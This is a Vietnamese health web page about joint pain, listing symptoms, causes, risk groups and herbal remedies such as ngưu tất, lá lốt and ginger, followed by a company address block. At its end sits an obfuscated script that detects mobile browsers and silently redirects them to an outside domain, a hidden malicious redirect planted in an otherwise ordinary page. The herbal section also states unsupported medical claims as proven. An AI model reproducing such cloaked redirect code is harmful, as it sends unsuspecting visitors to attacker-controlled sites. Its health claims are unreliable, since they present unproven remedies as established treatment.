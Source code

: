 Đau xương khớp: Triệu chứng, nguyên nhân và thảo dược hỗ trợ điều trị

Triệu chứng đau xương khớp

Những dấu hiệu và triệu chứng của đau xương khớp
Các triệu chứng có thể đến và đi theo từng đợt, có thể liên quan đến mức độ hoạt động của bạn và thậm chí cả thời tiết. Trong những trường hợp nghiêm trọng hơn, các triệu chứng có thể liên tục. Các triệu chứng khác mà bạn hoặc bác sĩ của bạn có thể nhận thấy bao gồm:

Đau khớp.
Tăng đau và cứng khi bạn không cử động khớp trong một thời gian.
Các khớp xuất hiện hơi lớn hơn bình thường.
Khi vận động các khớp cảm giác khó chịu hoặc phát ra âm thanh rắc rắc ở các khớp.
Cử động hạn chế trong phạm vi hoạt động các khớp.
Hao mòn cơ (mất khối lượng cơ).

Nguyên nhân đau xương khớp
Một số nguyên nhân thường gặp dẫn đến đau xương khớp có thể kể đến như sau:

Đa phần các bệnh lý về xương khớp thường đến từ thói quen sống không lành mạnh như lười vận động, ăn nhiều thức ăn nhanh, tư thế ngồi hoặc xách vật nặng sai cách... Đây là những điều nhỏ hằng ngày thường mọi người sẽ hay bỏ qua nhưng nó lại ảnh hưởng không tốt đến hệ xương khớp.

Sự lão hóa xương khớp theo thời gian cũng là nguyên nhân thường gặp ở người lớn tuổi. Điều này khiến chức năng của hệ xương khớp kém linh hoạt và dần thoái hóa, có thể gây đau xương khớp mãn tính. Đa phần những người trên 50 tuổi thường gặp nhiều vấn đề về xương khớp.

Một nguyên nhân hay gặp nữa là bệnh nhân không tuân thủ theo phương pháp điều trị bệnh xương khớp. Vì để cải thiện tình trạng đau nhức xương khớp cần có sự kiên trì tập luyện vật lý trị liệu trong thời gian dài kết hợp với dùng thuốc. Nếu trong quá trình điều trị xảy ra sự gián đoạn ảnh hưởng lớn đến kết quả điều trị của người bệnh và tình trạng đau xương khớp sẽ không có sự cải thiện.

Nguy cơ đau xương khớp
Những ai có nguy cơ mắc phải đau xương khớp?
Đau xương khớp phổ biến ở các đối tượng sau đây:

Người già lớn tuổi có nguy cơ phát triển tình trạng đau xương khớp.

Người có tiền sử gia đình bị các bệnh về xương khớp có thể xảy ra trong gia đình, mặc dù các nghiên cứu chưa xác định được một gen duy nhất chịu trách nhiệm.

Người béo phì có nguy cơ tạo áp lực quá mức cho các khớp của bạn, đặc biệt là những khớp chịu phần lớn trọng lượng của bạn, chẳng hạn như đầu gối và hông của bạn.

Tình trạng đau xương khớp ở phụ nữ phổ biến hơn nam giới.

Các loại thảo dược hỗ trợ cho đau xương khớp:

1. Ngưu tất

Trong Y Học Cổ Truyền, ngưu tất là dược liệu có tính ôn, vị chua, đắng và quy vào kinh can thận. Các nghiên cứu khoa học đã chứng minh công dụng của dược liệu này là hành ứ, phá huyết và sau khi chế biến có tác dụng bổ can thận, mạnh gân cốt nên được sử dụng rất phổ biến trong các bài thuốc Y Học Cổ Truyền điều trị các bệnh lý về xương khớp. Trong đó bài thuốc thường được áp dụng là dùng 3 – 9g ngưu tất đem sắc lấy nước uống theo đợt - giúp lợi gân cốt, bổ thận, giảm các triệu chứng viêm khớp, đau khớp, đau bụng kinh. Đặc biệt, cao khô Ngưu tất bào chế dạng viên uống được dùng trong điều trị huyết áp cao, tăng cholesterol máu, xơ vữa động mạch.

2. Dây đau xương

Dây đau xương có tên khoa học Tinospora sinensis Merr. – thuộc họ Tiết đề Menispermaceae, có tính mát, vị đắng và quy và kinh can. Đây là một trong những loại thảo dược tốt cho hệ xương khớp. Thảo dược này dạng dây leo, chiều dài từ 7 – 8cm có cành rũ xuống, thân và lá cây có lông, lá cây hình tim có phần cuống tròn và hõm lại, phía đỉnh hẹp thành mũi nhọn với chiều dài 10 – 20cm, chiều rộng 8 – 10cm tỏa hình chân vịt.

3. Lá lốt

Ngoài công dụng được dùng như một loại gia vị, lá lốt còn được biết đến là một loại thảo dược tốt cho xương khớp. Trong Y Học Cổ Truyền, thảo dược này có tính ấm, vị cay và công dụng tán hàn, ôn trung, hàn khí chỉ thống, giúp giảm đau xương khớp. Dùng lá lốt phơi trong bóng râm, đến khi héo đem bỏ vào nồi sắc và nấu cùng nước trong thời gian khoảng 30 phút, gạn bỏ phần cặn, lấy nước uống sau bữa ăn tối. Ngoài ra sử dụng lá lốt trong các bữa ăn hoặc dùng ngâm chân cũng rất tốt cho xương khớp.

4. Cây thiên niên kiện

Thiên niên kiện là một vị thuốc quý trong Y Học Cổ Truyền. Trong danh sách các loại thảo dược tốt cho hệ xương khớp thì thiên niên kiện là một trong những vị thuốc đứng đầu trong điều trị. Dược liệu này có vị đắng, cay, tính ấm và mùi thơm, chứa hàm lượng lớn các hoạt chất có công dụng giảm đau. Thiên niên kiện được sử dụng trong điều trị với tác dụng hỗ trợ điều trị phong thấp, bổ gân cốt, chỉ thống tiêu thũng, nhức mỏi các gân xương, đau nhức khớp hoặc bị tê bại co quắp, viêm dây chằng, thoái hóa khớp và đau thần kinh tọa.

5. Gừng

Gừng là vị thuốc có công dụng giảm đau và kháng viêm tự nhiên hiệu quả, thảo dược này chứa hàm lượng lớn chất chống oxy hóa, tác dụng hiệu quả giúp thải trừ độc tố khỏi cơ thể. Ngoài việc sử dụng đơn độc, có thể kết hợp gừng với hành tây và muối rang để đem lại hiệu quả hỗ trơ điều trị đau khớp tốt. Người bệnh nên sử dụng bài thuốc chườm gừng, muối và hành tây mỗi ngày, liên tục đến khi giảm được triệu chứng đau thì có thể giảm tần suất chườm muối.



THÔNG TIN ĐỊA CHỈ


CÔNG TY CÔNG VIÊN CÂY XANH BA MIỀN


ĐỊA CHỈ: KĐT Hoà Lạc, Quốc Oai, Hà Nội


EMAIL: THAODUOCTOT@GMAIL.COM


ĐIỆN THOẠI: 098665996


<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.muaxuanveroi.click/phamdao",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>
